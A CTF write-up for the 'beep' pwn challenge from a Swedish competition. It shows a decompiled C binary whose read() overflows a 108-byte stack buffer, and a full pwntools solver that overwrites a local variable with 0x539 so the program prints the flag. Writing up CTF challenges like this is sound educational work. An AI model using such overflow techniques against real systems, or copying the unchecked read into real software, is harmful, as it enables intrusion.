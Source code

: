 ```yaml
---
description: Binary Exploitation / Pwn
---
```


# beep

> Kenneth verkar ha problem med kommunikationen till andra system han tagit över. Harriet har nämligen hittat något slags litet testprogram vars syfte verkar vara att testa att en anslutning fungerar.
>
> Testprogrammet verkar vara ganska minimalt, men även små program kan innehålla buggar...
>
> Anslut till `undutmaning-beep.chals.io:443` och testa anslutningen du också.
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> Harriet tror att det finns en buffer overflow i koden. Pröva att undersöka programmet med t.ex. `Ghidra` och `gdb` för att se ifall du kan knäcka buggen!
>
> </details>
>
> <details>
>
> <summary>Visa gratis tips/ledtråd</summary>
>
> `setup()`-funktionen kan ignoreras då den endast sätter en timer på utmaningen samt stänger av buffering på `stdin`/`stdout`/`stderr`.
>
> </details>

{% file src="../../.gitbook/assets/beep" %}

A simple integer variable overwrite challenge, looking into the Ghidra disassembly, the code looked like this:

```c
undefined8 main(void)

{
  undefined local_78 [108];
  int local_c;
  
  setup();
  printf("* beeeeeeeeeeeeeeeeeeeeeeeeeeep *\n> ");
  read(0,local_78,0x108);
  if (local_c == 0x539) {
    system("cat flag");
  }
  return 0;
}
```

Simple goal, I had to overwrite the compared variable with `0x539`, and guess what it translates to 1337.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Pretty much, the solution required me to find the offset to the comparison instruction using cyclic offsets, so here was the final solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: wintertia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'beep')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

host = args.HOST or 'undutmaning-beep.chals.io'
port = int(args.PORT or 443)

def start_local(argv=[], *a, **kw):
	'''Execute the target binary locally'''
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
	'''Connect to the process on the remote host'''
	io = connect(host, port, ssl=True, sni=host)
	if args.GDB:
		gdb.attach(io, gdbscript=gdbscript)
	return io

def start(argv=[], *a, **kw):
	'''Start the exploit against the target.'''
	if args.LOCAL:
		return start_local(argv, *a, **kw)
	else:
		return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *main+59
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

def exploit():
	io = start()
	
	OFFSET = 108

	payload = flat(
		cyclic(OFFSET),
		0x539
	)

	io.sendlineafter(b'> ', payload)
	
	io.interactive()

if __name__ == "__main__":
	exploit()

```

Here is an example of the challenge being solved locally (ignore it saying picoCTF that's just my template fake flag:relaxed:):

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
